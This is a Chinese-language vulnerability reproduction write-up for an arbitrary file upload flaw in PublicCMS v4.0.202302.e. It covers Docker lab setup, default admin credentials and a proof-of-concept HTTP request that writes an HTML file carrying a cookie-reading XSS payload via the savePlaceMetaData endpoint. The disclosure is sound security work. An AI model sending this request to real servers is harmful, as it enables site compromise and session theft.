 **漏洞名称**

publicCms savePlaceMetaData 任意文件上传漏洞

**漏洞影响**

publicCms v.4.0.202302.e版本

**漏洞描述**

publicCms v.4.0.202302.e版本的/admin/cmsTemplate/savePlaceMetaData组件中存在任意文件上传漏洞，攻击者可通过上传精心制作的文件来执行任意代码。从而导致web服务器沦陷。

**靶场搭建**

publicCms是个开源项目，gitee地址如下，可以使用源码搭建，也可以直接下载运行包

```
https://gitee.com/sanluan/PublicCMS
```

我是使用docker搭建靶场，下载镜像

```
docker pull sanluan/publiccms:V4.0.202302.e
```

启动容器

```
docker run -d -p 8080:8080 sanluan/publiccms:V4.0.202302.e
```

访问程序页面http://localhost:8080/ ,根据页面提示配置并初始化数据库

管理后台访问相对路径为http://localhost:8080/admin/ ,数据脚本内置管理员账号/密码:admin/admin

**漏洞复现**

POC数据包

```yaml
POST /admin/cmsTemplate/savePlaceMetaData HTTP/1.1
Host: localhost:8080
Connection: close
Content-Length: 112
Content-Type: application/x-www-form-urlencoded
Cookie: 

_csrf=e37f6445-3075-4ef1-b425-d75cb720283b&path=tee4.html&content=<img%20src=1%20onerror=alert(document.cookie)>

```

文件回显

http://localhost:8080/includetee4.html

